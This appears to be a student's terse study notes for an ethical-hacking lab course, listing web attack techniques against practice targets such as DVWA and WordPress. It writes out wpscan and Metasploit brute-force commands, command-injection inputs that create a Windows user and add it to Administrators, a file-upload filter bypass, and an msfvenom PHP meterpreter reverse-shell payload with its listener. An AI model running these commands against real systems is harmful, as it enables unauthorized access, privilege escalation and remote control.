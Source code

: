 1) Parameter Tampering = changing the last parameter = IDOR 
2) XSS = cross site scripting 
3) Enumeration and Hacking a web Application Using WPscan and metasploit  we can also use nmap to enumerate the users in wordpress 
	1) Commands for WPSCAN
		1) wpscan --url https://example/ --enumerate u (To enumerate the user) 
		2) wpscan --url http://172.16.0.27:8080/CEH/ -u james -P /path/pass.txt

	2) Commands for  metasploit 
		1) use auxiliary/scanner/http/wordpress_login_enum
		2) options
		3) run
4) Exploiting remote command execution login -> set the DVWA security to low  -> issue the commands
	1) for command injection
		1) | hostname
		2) | whoami
		3) | net user
		4) | dir C:\
		5) | net user Test /Add
		6) | net localgroup Administrators Test /Add

5) Vega 
	1) Add IP see the vuln

6) Acunetix 
	1) vuln scanner

7) Upload Vuln 
	1) all were easy 
	2) in one at GIF98 to the end of file to upload it and rename it as upload.php.jpg
	3) https://techsphinx.com/hacking/hacking-for-beginners-file-upload-vulnerability/
	4) msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234
	5) use exploit/multi/handler
	6) show options set lhost as 10.10.10.10. set lport 1234 -> done 

8) Command injection will see in paper 
9) CSRF 
	1) we will se in paper 

